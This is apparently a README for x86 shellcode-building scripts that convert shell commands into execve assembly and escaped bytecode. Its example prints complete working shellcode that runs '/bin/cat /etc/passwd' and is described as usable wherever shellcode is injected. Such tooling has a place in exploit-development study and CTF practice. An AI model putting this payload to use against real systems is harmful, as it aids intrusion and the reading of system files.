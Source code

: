 reversingtools - x86
====================
x86 Tools and Scripts - Probably don't use on OSX

<strong>packWord.pl</strong> - packs a string into hex, use the -r option for reverse (good for pushing a string to the stack for shellcode)<br>
<strong>doshcommandinssembly.pl</strong> - takes all arguments, converts them to hex, and uses a template to run execve("/bin/sh", ["/bin/sh", "-c", "{your args}", NULL], NULL) to call them in assembly. Outputs program as shl.asm.<br>
<strong>comp_and_dump.sh</strong> - compiles .asm files with nasm, links them with ld, dumps the bytecode with objdump, and turns it into shellcode with the '\x' character in front for quick use. Reads from shl.asm and outputs shl.o and shl (the executable you should test). Now it cleans up the shl.o file and outputs the number of bytes to stderr so you can redirect to a file without getting the byte count in there.<br>
I'll probably update these tools to take in a user supplied output filename (or at the very least cleanup the files after)

<strong>Example:</strong> ./doshcommandinassembly.pl /bin/cat /etc/passwd && ./comp_and_dump.sh<br>
<strong>Output:</strong> \x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xd0\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x68\x2d\x63\x11\x11\x66\x89\x44\x24\x02\x89\xe1\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x51\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x89\xc3\xb0\x01\xcd\x80<br>93 Bytes<br>
The output can be used where any shellcode would be used and will print the contents of /etc/passwd to the screen
